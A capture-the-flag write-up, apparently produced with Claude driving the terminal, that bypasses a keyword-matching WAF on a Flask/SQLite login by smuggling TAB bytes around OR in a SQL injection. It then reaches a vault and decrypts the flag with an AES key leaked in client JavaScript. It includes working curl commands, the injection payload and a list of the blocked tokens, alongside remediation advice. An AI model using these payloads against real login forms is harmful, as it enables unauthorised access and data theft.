

# THE VELVET ROOM, SQLi Auth Bypass Past a WAF → Vault → Crypto, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | THE VELVET ROOM ("Private screening" login → secret vault) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, **SQLite** backend, HTTP, TCP/8090 (EC2) |
| **IP:Port** | `54.72.82.22:8090` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | Bypassed a keyword WAF on the login with **whitespace smuggling** (a literal TAB between `OR` and its operands), logged in as `admin`, reached `/vault`, and decrypted the reserved `FLAG.txt` with an AES key leaked in the page's JavaScript. |
| **Honesty note** | Second-wave sweep; my instruction was *"try solving them,"* Claude drove the terminal. I'm keeping the false-positive "success" in, I thought I was in when I'd actually just triggered a SQL syntax error, and the error message is what put me back on track. |

---

## 1. The Short Version

A login form guarding a "private screening." Classic SQL-injection auth-bypass territory, except a filter sits in front. Normal payloads (`admin' OR '1'='1`) came back with *"That request could not be completed,"* a different message from the *"Invalid credentials"* you get for a wrong-but-clean login. That difference is the tell: a **WAF** is pattern-matching my SQL keywords.

The backend is **SQLite** (I learned that from an error it leaked). The WAF blocks `OR`, `AND`, `UNION`, `SELECT`, `||`, `--`, `/*` **when surrounded by normal spaces**. But SQL doesn't care *which* whitespace separates tokens, a TAB works just as well as a space. The WAF's regex keyed on spaces; SQLite happily parses a TAB. So:

```
username =  admin'<TAB>OR<TAB>'1'='1        password = x
```

renders the query true, logs me in as `admin`, and redirects to `/vault`. The vault lists a `FLAG.txt` stored as AES ciphertext, and the page's own JavaScript carries the decryption key in base64. One POST to `/decrypt` finishes it.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{7877e854c9f06a8362af26ee280a6574}` | TAB-smuggled SQLi login → `/vault` → `/decrypt` with JS-leaked key `V4ultK3y12345678` |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Login query built by string concatenation | **SQL Injection** (CWE-89) | `POST /login` | Critical |
| 2 | WAF keyword blocklist keyed on space-delimited tokens | Filter bypass via whitespace (CWE-184) | login filter | High |
| 3 | AES key for the "reserved" secret shipped in client JS | **Hard-coded/exposed key** (CWE-798 / CWE-312) | `/vault` page source | High |

---

## 3. Recon

The login POSTs `username`/`password` to `/login`. I probed with a single quote and a classic bypass and watched the *messages*, which told me more than success/failure alone:

```bash
m(){ curl -s -X POST http://54.72.82.22:8090/login \
      --data-urlencode "username=$1" --data-urlencode "password=x" \
      | grep -oE '⚠️[^<]*'; }

m "x"                       # ⚠️ Invalid credentials       (clean wrong login)
m "admin' OR '1'='1"        # ⚠️ That request could not be completed   (← WAF!)
m "admin'"                  # ⚠️ Invalid credentials       (a lone quote is allowed)
```

Two distinct error messages = a filter that recognizes injection *patterns* but passes clean input. Fingerprinting which tokens trip it:

| Token | Result |
|---|---|
| `OR`, `UNION`, `SELECT`, `\|\|`, `--`, `/*` | **blocked** ("could not be completed") |
| `AND` (with spaces, in a full payload) | blocked |
| `'`, `#`, `;`, `=`, `'1'='1'` | allowed |

Then a payload leaked the backend when it errored:

```
username = admin' oORr '1'='1
→ ⚠️ Database error: near "oORr": syntax error
```

That *"near ... syntax error"* is SQLite's own message, so (a) errors are reflected and (b) it's **SQLite**, where `--` is the comment and `#` is *not*. Good to know: the WAF had already blocked `--`, so I'd need a bypass that doesn't rely on comments.

---

## 4. The Exploit

### 4.1 The false start (kept on purpose)

I first tried the "WAF strips the keyword" trick, `oORr` (hoping it removes the inner `OR` and leaves `or`). My crude success-detector matched boilerplate words on the page and screamed **SUCCESS**. It was wrong: the full response said `Database error: near "oORr": syntax error`. The WAF wasn't *stripping* anything; `oORr` just reached SQLite as garbage. **Reading the whole response, not a keyword heuristic, is what corrected me.**

### 4.2 The real bypass, whitespace smuggling

The WAF's regex matched keywords bounded by *spaces*. SQL treats TAB, newline, CR, and form-feed as whitespace too. So I put a real **TAB** (byte `0x09`) on each side of `OR`:

```bash
printf "admin'\tOR\t'1'='1" > /tmp/u.bin     # real TAB bytes, not the text %0b/\t

curl -s -i -X POST http://54.72.82.22:8090/login \
  --data-urlencode "username@/tmp/u.bin" --data-urlencode "password=x" -c jar
# HTTP/1.1 302 FOUND
# Location: /vault
# Set-Cookie: session=...logged_in:true,username:admin'...
```

> Gotcha I hit: sending the *text* `%0b` doesn't work, SQLite parsed `'admin'%0bOR` as a modulo (`%`) and a bad token. You must send the **actual** control byte. `--data-urlencode` from a file with literal TABs does that correctly.

The query becomes `... WHERE username='admin' OR '1'='1' AND password='x'`. `AND` binds tighter than `OR`, so it parses as `username='admin' OR (...)` → true → logged in as `admin` → redirect to `/vault`.

### 4.3 The vault + the leaked key

`/vault` (with the session cookie) lists three items; the interesting one:

```
FLAG.txt   (Reserved)   TWGRJLrOWBQ90+NUXN61zuwS0Z6GYJMXuhbmZvw8gCabwH8TtiNnpabEvQ6D5e1evbvOphrakDhrLAIo6q4Jjw==
Access code: [ Decrypt ]
```

A base64 AES blob plus a `/decrypt` endpoint. The page's JS gave away the key:

```javascript
const vaultKey = "VjR1bHRLM3kxMjM0NTY3OA==";   // base64
// decrypt → POST /decrypt {data: encryptedData, key: <access code>}
```

Decode the key and call `/decrypt`:

```bash
echo -n "VjR1bHRLM3kxMjM0NTY3OA==" | base64 -d      # → V4ultK3y12345678

curl -s -b jar -X POST http://54.72.82.22:8090/decrypt \
  -H 'Content-Type: application/json' \
  --data '{"data":"TWGRJLrOWBQ9...Jjw==","key":"V4ultK3y12345678"}'
# {"decrypted":"safctf{7877e854c9f06a8362af26ee280a6574}","success":true}
```

(The vault also showed a decoy `API Key sk_live_1234567890abcdef`, bait, not the flag.)

---

## 5. Why It Worked & How I'd Fix It

- **The SQLi** is the original sin: the login concatenates input into the query. The WAF is a band-aid over that, and band-aids over injection almost always peel off.
- **The whitespace bypass** worked because the filter modelled SQL as "keywords separated by spaces," but SQL's tokenizer accepts *any* whitespace (and comments, and string tricks). A pattern that doesn't match the parser's grammar will always have gaps.
- **The leaked key** means even the "encrypted" secret wasn't protected, the key travelled to every visitor in the page source.

Fixes:

1. **Parameterised queries.** `cur.execute("SELECT ... WHERE username=? AND password=?", (u,p))`. This makes injection structurally impossible and retires the WAF entirely.
2. **Hash passwords** (bcrypt/argon2) and compare hashes, never compare plaintext in SQL.
3. **Don't reflect DB errors** to the client (it handed me "SQLite" and my own syntax errors as an oracle).
4. **Keep keys server-side.** Decryption keys must never ship in client JS; do the decrypt server-side behind authorization, or don't send the ciphertext at all.
5. If a WAF is used, it's **defense-in-depth, not the fix**, and it must normalize whitespace/comments/encodings before matching.

---

## 6. Timeline

- Login → two distinct error messages → inferred a keyword WAF.
- Fingerprinted blocked tokens (`OR/AND/UNION/SELECT/||/--//*`); a bad payload leaked **SQLite** + reflected errors.
- False "success" on `oORr` → corrected by reading the full error.
- Smuggled a real **TAB** around `OR` → 302 `/vault`, session `admin`.
- Vault → base64 AES `FLAG.txt` + JS `vaultKey` → decode key `V4ultK3y12345678` → `/decrypt` → flag.

---

## 7. References

- PortSwigger, **SQL injection** (authentication bypass)
- OWASP, **SQL Injection Prevention Cheat Sheet** (parameterised queries)
- CWE-89 (SQLi), CWE-184 (Incomplete Blocklist), CWE-798 / CWE-312 (keys in client / cleartext storage)
- SQLite docs, comment & whitespace tokenization

**Lesson I'm keeping:** a WAF that thinks SQL is "words between spaces" hasn't met the TAB key. And read the *whole* response, a page full of the word "screening" is not the same as being logged in.
